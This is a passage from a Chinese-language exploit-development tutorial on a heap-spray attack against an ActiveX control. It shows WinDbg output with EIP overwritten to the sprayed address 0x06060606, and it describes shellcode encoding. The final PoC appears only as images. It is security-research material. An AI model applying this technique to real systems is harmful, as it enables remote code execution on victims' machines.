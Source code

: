 调试结果如下：

```
eax=000003ea ebx=00000001 ecx=0000003c edx=0483fd08 esi=03ff0f64 edi=04840000
eip=03ed2fb7 esp=04826e90 ebp=0483ff9c iopl=0         nv up ei pl nz ac pe cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010217
rspmp3ocx1+0x2fb7:
03ed2fb7 f3a5            rep movs dword ptr es:[edi],dword ptr [esi]
0:014&gt; g
(87c.f6c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=00000000 ecx=06060606 edx=7c9032bc esi=00000000 edi=00000000
eip=06060606 esp=04826ac0 ebp=04826ae0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
06060606 ??              ???
0:014&gt; d 06060606
06060606  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
06060616  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
06060626  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
06060636  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
06060646  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
06060656  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
06060666  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
06060676  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
```

可以看到EIP被覆盖为0x06060606。(其中一个可预测的指针) 然后执行流就报错了因为我们没有写任何东西在0x06060606。



**Shellcode+游戏结束**

我们首先生成一些可用的shellcode，记得将shellcode编码为javascript小端字节序。

[![](./img/85586/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01cee845bfc85536a3.png)

[![](./img/85586/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01432e2ec8f44dfdb9.png)

[![](./img/85586/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0173697fd75d868f04.png)

好的，整理下最后的POC。增加一些注释和前面创建的堆喷射。最终的堆喷射脚本如下：

[![](./img/85586/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0158198d85b9e6c53e.png)

[![](./img/85586/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0123505bb13db7cb1f.png)

[![](./img/85586/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01f17da95f6ac867e3.png)

[![](./img/85586/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01fe6eff52ad8e33a8.png)
